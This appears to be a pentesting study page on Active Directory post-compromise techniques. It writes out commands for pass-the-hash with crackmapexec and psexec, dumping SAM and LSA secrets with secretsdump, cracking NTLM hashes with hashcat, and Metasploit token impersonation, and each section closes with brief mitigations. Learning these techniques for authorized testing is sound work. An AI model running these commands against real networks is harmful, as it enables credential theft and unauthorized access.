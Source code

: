 ```yaml
---
layout: default
title: 03. Active Directory Post Compromise
nav_order: 2
has_children: false
parent: Active Directory
grand_parent: Pentesting
---
```


## 03.Active Directory Post Compromise


### Pass The Hash

Pass The Password / Pass The Hash

You can pass NTLM hashes but not NTLMv2 hashes.

#### Using crackmapexec

[Source](https://wiki.porchetta.industries/)

Can be used with password:

```bash
crackmapexec smb $IP/$CIDR -u username -d EVIL_DOMAIN -p password
```

Or with hashes:

```bash
crackmapexec smb $IP/$CIDR -u username -H hash --local-auth
```

Accessing another instance pwned could be done using [`psexec.py`](https://github.com/fortra/impacket/blob/master/examples/psexec.py) :

```bash
psexec.py evil/username:password@target_ip
```

#### Dumping hashes

It requires access to another host.

Using [secretdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) we could retrieve hashes from host:

```bash
secretdump.py evil/username:password@target_ip
```

It gives the SAM hashes and the LSA secrets of the host.

#### Cracking the hashes

Using hashcat:

```bash
hashcat -m 1000 hashes.txt rockyou.txt -O 
```

#### Only passing the hash

We will use only the second part of the hash:

![](/writings/docs/assets/Hashes.png)

![](docs/assets/Hashes.png)

Using crackmapexec:
```bash
crackmapexec smb $IP/$CIDR -u "Username" -H <hash> --local-auth
```

We could try to get a shell access using only the hash and psexec:

```bash
psexec.py "username":@target_ip -hashes LMHASH:NTHASH
```

(`LMHASH:NTHASH` correspond to the full hash retrieve previously)

#### Mitigations

- Limit account reuse
- Utilize strong password
- Implement Privilege Access Management (PAM)


### Token Impersonation

Token are temporary key allowing access to system / network without having to provide credentials.

There is 2 types:
- Delegate - Create to login to a machine / using RDP
- Impersonate - "Non interractive", attaching network drive or domain logon script

#### Using Incognito

Require a shell on a machine.
From an existing metasploit session, we could use the load command to load the `incognito` tool inside our target.

Once the tool loaded, we could start by listing the tokens available: 

```bash
list_tokens -u
```

Then from this list we could select a user we want to impersonate:

```bash
impersonate_token evil\\administrator
```

Metasploit handle everything for us. 

#### Mitigation

- Limit user/group token creation permission
- Account tiering 
- Local admin restriction


### Kerberoasting 








